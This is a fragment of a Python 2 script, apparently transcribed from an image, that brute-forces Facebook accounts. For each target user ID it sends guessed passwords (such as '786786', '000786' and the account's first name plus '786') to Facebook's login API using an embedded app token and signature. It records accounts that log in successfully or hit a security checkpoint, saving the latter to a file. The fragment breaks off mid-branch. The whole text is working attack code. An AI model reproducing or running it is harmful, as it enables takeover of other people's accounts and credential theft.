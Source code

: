 ---------------------------------------------------------"""		
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Jam
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = '786786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass1	
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass1	
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = '000786'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
						z = json.loads(x.text)
						print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass2	
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass2	
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '786'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
								z = json.loads(x.text)
								print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass3	
								oks.append(user+pass3)
							else: